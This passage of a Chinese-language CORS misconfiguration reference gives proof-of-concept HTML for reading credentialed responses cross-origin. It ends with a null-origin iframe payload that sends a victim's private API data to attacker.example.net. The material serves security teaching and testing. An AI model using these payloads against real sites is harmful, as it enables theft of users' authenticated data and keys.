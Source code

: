 或者

```html
<html>
     <body>
         <h2>CORS PoC</h2>
         <div id="demo">
            <button type="button" onclick="cors()">利用</button>
         </div>
        <script>
             function cors() {
             var xhr = new XMLHttpRequest();
             xhr.onreadystatechange = function() {
                 if (this.readyState == 4 && this.status == 200) {
                 document.getElementById("demo").innerHTML = alert(this.responseText);
                 }
             };
              xhr.open("GET",
                       "https://victim.example.com/endpoint", true);
             xhr.withCredentials = true;
             xhr.send();
             }
         </script>
     </body>
 </html>
```

### 易受攻击的示例：null origin

#### 易受攻击的实现

服务器可能不会反映完整的`Origin`头，但是允许`null`起源。这在服务器的响应中看起来像这样：

```markdown
GET /endpoint HTTP/1.1
Host: victim.example.com
Origin: null
Cookie: sessionid=... 

HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true 

{"[私有API密钥]"}
```

#### 概念验证

这可以通过将攻击代码放入使用数据URI方案的iframe中来利用。如果使用数据URI方案，浏览器将在请求中使用`null`起源：

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://victim.example.com/endpoint',true);
  req.withCredentials = true;
  req.send();

  function reqListener() {
    location='https://attacker.example.net/log?key='+encodeURIComponent(this.responseText);
   };
</script>"></iframe> 
```
